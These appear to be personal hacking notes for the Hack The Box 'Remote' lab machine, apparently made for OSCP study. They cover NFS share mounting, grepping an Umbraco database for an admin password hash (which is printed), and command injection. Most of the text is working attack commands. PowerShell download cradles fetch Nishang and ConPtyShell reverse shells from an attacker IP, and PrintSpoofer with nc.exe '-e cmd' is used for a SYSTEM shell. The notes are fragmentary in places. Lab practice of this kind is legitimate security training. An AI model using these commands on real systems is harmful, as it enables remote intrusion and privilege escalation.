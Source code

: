 mount -t nfs -o vers=2 10.129.95.194:/site_backups /mnt/remote -o nolock

sudo mount -t nfs -o vers=2 10.129.95.194:/site_backups /mnt/remote -o nolock

### Get the directory tree of the mount 
```
find . -ls > ~/home/user/web.dir
```

Don't use sublime or vscode. They miss files

### Go through config files, grep passwords
strings Umbraco.sdf | grep -i passwd
strings Umbraco.sdf | grep -i admin
strings Umbraco.sdf | grep -i admin@htb.local

adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50

### Those insdie strings so go start with /c
`/c ping 10.10.16.9`

### Solve Clock problem
1. try diff host <ip> or http://<ip> or http://<ip>/cms
2. change something like calc.exe or other placeholders to cmd.exe

### Shell
##### Avoid using Invoke-ConPtyShell.ps1
```
/c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.9/Invoke-ConPtyShell.ps1');Invoke-ConPtyShell 10.10.16.9 4242
```

/c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.9/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.9 -Port 4242

https://0xdf.gitlab.io/2020/09/05/htb-remote.html
I’ll update the payload with the PowerShell loader that will download from my host a Nishang PowerShell reverse shell and run it. The payload will be:
```
string cmd = "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.16.9/Invoke-PowerShellTcp.ps1')";Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.9 -Port 4242
```
To break that down, the target exe is still cmd.exe. It will run with /c, so running the command that follow. PowerShell will start, with -c to issue commands that follow. iex (shorthand for Invoke-Expression) will run whatever string comes back from the rest of the line. The rest of the line will reach out to my host, and download shell.ps1 (which is then passed to iex).

I’ll grab a copy of Invoke-PowerShellTcp.ps1 (and save it as shell.ps1), and add a line at the bottom to execute the shell:
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 443
```
Without this line, the harness would load the reverse shell functions into the PowerShell session, and but not use them. Now it will load the functions and then invoke the one I want to call back to me.

### Priv
cp winPEASx64.exe /home/alvin/Documents/OSCP-PWK/HackTheBox/Windows/Remote
IWR http://10.10.16.9/winPEASx64.exe -OutFile winPeas.exe

### Not working at 2021 Sep
```
PrintSpoofer64.exe -i -c cmd # is not recognized as the name of a cmdlet, function, script file
.\PrintSpoofer64.exe -i -c cmd # stuck
.\PrintSpoofer64.exe -i -c "powershell -c iex( iwr http://10.10.16.9/Invoke-PowerShellTcp.ps1 -UseBasicParsing );Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.9 -Port 4567"
.\PrintSpoofer64.exe -i -c "powershell -ep bypass"
```

### nc.exe is the only working one
```
IWR http://10.10.16.9/nc.exe -OutFile nc.exe
.\PrintSpoofer64.exe -c "C:\users\public\nc.exe 10.10.16.9 4567 -e cmd"
```

At least 3 ways to root(some of them are patched now)
1. Crack registry key:
https://0xdf.gitlab.io/2020/09/05/htb-remote.html
2. RoguePotato is nolonger working
3. https://0xdf.gitlab.io/2020/02/01/htb-re.html#path-1-abuse-usosvc
2. PrinterSpoof